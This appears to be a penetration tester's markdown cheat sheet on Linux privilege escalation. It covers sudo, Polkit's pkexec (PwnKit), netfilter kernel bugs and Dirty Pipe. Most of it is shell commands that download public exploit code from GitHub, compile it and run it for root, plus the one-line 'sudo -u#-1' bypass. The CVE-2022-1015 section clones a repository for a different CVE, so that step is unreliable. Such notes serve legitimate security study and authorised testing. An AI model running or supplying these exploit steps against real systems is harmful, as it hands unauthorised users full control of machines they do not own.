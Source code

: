## Sudo
### sudoers file
```shell
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```
### Get Sudo Version
```shell
sudo -V | head -n1
```
### CVE-2021-3156
**Sudo verisons**
Ubuntu 20.04 - 1.8.31
Debian 10 - 1.8.28
Fedora 33 - 1.9.2 
#### Run
```shell
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```
Get Which version you need
```shell
cat /etc/lsb-release
```
```shell
./sudo-hax-me-a-sandwich <id>
```
### CVE-2019-14287
https://www.sudo.ws/security/advisories/minus_1_uid/
Minus uid bug
```shell
sudo -u#-1 <binary>
```
## Polkit
* An authorisation service on Linux based operating systems that allow user software and system components to communicate with each other. 
* Checks whether the user software is authorised for the asked instruction.
* It is possible to set how permissions are granted by default for each user and application. 

Works with 2 groups of files:
1. actions/policies `/usr/share/polkit-1/actions`
2. rules `/usr/share/polkit-1/rules.d`

* Polkit has `local authoirty` which can be used to set or remove additional permissions for users and groups.
* Custom rules can go in `/etc/polkit-1/localauthroity/50-local.d`

Polkit comes with three additional prgorams
1. `pkexec` - Runs a program with the rights of another user or with root rights
2. `pkaction` - can be used to display actions
3. `pkcheck` - Can be used to check if a process if authorised for a specific action. 

### CVE-2021-4034
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034
* Also known as [Pwnkit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
* Memory corruption vulnerability
```shell
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```
## Netfilter
* Linux kernel module that provides, packet filtering, network address translation, and more. 

Has 3 main functions
1. Packet defragmentation
2. Connection Tracking
3. NAT
* When activated, all IP packets are checked by `netfilter`
### CVEs
1. [CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)
2. [CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)
3. [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)

#### CVE-2021-22555
Kernel Version 2.6-5.11
```shell
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```
#### CVE-2022-1015
Kernel Version 5.4-5.6.10
```shell
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```
#### CVE-2023-32233
Kernel version up to 6.3.1
```shell
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```
## Dirty Pipe
**CVE-2022-0847**
* Affects kernel versions 5.8 - 5.17
* Android phones are affected
```shell
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```
Exploit 1 modifies the `/etc/passwd` and allows root privileges
Exploit 2 can execute SUID binaries with root privilges. 
```shell
./exploit-2 /usr/bin/sudo
```
